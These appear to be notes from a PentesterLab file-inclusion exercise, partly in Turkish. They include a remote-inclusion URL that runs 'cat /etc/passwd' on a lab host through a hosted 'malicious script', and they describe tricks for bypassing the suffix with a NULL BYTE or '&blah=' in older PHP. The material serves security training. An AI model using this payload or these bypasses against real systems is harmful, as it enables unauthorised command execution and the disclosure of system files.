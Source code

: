 File Include

Test page for File Include
http://assets.pentesterlab.com/test_include.txt


Malicious script
http://assets.pentesterlab.com/test_include_system.txt
Örnek: https://ptl-afd0e69f9700-abbce6b443a2.libcurl.me/?page=http://assets.pentesterlab.com/test_include_system.txt&c=cat%20/etc/passwd


In a similar manner to Directory Traversal, this example adds its own suffix to the value provided.
As before, you can get rid of the suffix (for LFI) using a NULL BYTE.
For RFI, you can get rid of the suffix, by adding &blah= or ?blah= depending on your URL.
In this exercise, the code simulates the behaviour of older versions of PHP.
PHP now correctly handles paths, and they cannot be poisoned using a NULL BYTE, as they used to.
